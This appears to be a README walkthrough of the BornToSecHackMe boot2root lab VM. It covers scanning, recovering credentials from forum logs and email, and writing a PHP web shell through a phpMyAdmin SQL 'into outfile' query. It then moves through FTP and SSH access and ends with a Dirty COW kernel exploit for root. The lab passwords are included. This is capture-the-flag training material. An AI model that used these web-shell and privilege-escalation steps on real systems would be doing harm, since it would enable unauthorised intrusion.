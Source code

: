 ## Searching IP address of out virtual machine.

``
ifconfig - needed for searching IP. 
``

![
vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 172.16.101.1 netmask 0xffffff00 broadcast 172.16.101.255
](/imgs/img1.png)

## Using nmap to find info about our IP address.
``
nmap 172.16.101.1-255
``

![
PORT   STATE SERVICE
22/tcp open  ssh
Nmap scan report for 172.16.101.128
Host is up (0.0012s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
Nmap done: 255 IP addresses (2 hosts up) scanned in 27.37 seconds
](/imgs/img2.png)
``172.16.101.128 IP of our VM``

## Checking links by address.
``git clone https://github.com/v0re/dirb.git``

### Install and use dirb
```
cd dirb
./confgiure
make
```
``./dirb https://172.16.101.128/ wordlists/common.txt``

## Checking links of forum.
After logging in to the forum, we find a branch of 'Probleme login?'.
Walking through the logs we find two lines:

### The first input was supposed to be confused lines for login and password.
![
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
](/imgs/img3.png)

### In the second login was correct.
![
Oct 5 09:21:01 BornToSecHackMe CRON[9111]: pam_unix(cron:session): session closed for user lmezard 
](/imgs/img4.png)

## Attempt to enter the e-mail with the received login and password.
Follow the link ``https://172.16.101.128/webmail/src/login.php``
With login ``lmezard`` and password ``!q\]Ej?*5K5cy*AJ`` not working.
Trying to search login ``lmezard`` in google :
![
Google info about lmezard. Laurie Mezard
](/imgs/img5.png)
We were given the full name Laurie Mezard. Trying different options for login.
The option we need is `` laurie@borntosec.net``.
Enter the email `` login: laurie@borntosec.net` and `` password:! !q\]Ej?*5K5cy*AJ``
Searching info in mail we find a letter:
![
Hey Laurie,
You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
Best regards.
](/imgs/img6.png)
Find the password and login for the database ``login: root`` and ``password: Fg-'kKXBj87E:aJ$``

## Attempt to login phpmyadmin.
Follow thi link ``https://172.16.101.128/phpmyadmin/``
With login and password we enter in the database.
After searching the network, we find an exploit for db.
``select "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output ?>" into outfile "/var/www/forum/templates_c/pokemon.php"``
Go to the sqltab in the same phpmyadmin window to which we are logged in.
Execute the script.
Script created a new template for the link ``https://172.16.101.128/forum/templates_c/pokemon.php`` where we can find ``lmezard:G!@M6f4Eatau{sF"``.

## Attempt to connect by ftp.
``ftp 172.16.101.128``
``login: lmezard``
``password: G!@M6f4Eatau{sF"``
Login was successful, checking the directory:
![
README.md
fun
](/imgs/img7.png)
Now we downloading file ``get fun ~/boot2root/fun``
In the file a lot of different information, if you look at the file type ``file fun`` we found out that file is an archive.
Unzip the archive ``tar xvf fun``
We receive the whole folder with different files. When viewing each file, we recognize that
there is a line with a license plate and a piece of code.
We use a small script that will collect everything from the files, sort it and then create a new main.c file.
``python unpack.py``
``gcc main.c``
``./a.out``
After run we get:
``
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
``
Encrypt it in SHA-256 and get:
``330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``
## Attempt to login via ssh.
``ssh laurie@172.16.101.128``
``login: laurie``
``password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``
Login was success.
Now we need to find out what kind of server it is to correctly google exploit for root.
``uname -r`` -> 3.2.0-91-generic-pae
``cat /etc/*-release`` -> DISTRIB_DESCRIPTION="Ubuntu 12.04.5 LTS"
With the obtained data, we do a search in Google and find this [link](https://www.exploit-db.com/exploits/40839).
Create this script on the server, we did it through vim.
``touch pokemon.c``
``vim pokemon.c`` -> ``CMD + C`` -> ``CMD + V``
``gcc -pthread pokemon.c -o dirty -lcrypt && ./dirty``
Now we set some password.
``su firefart``
# U are root.

















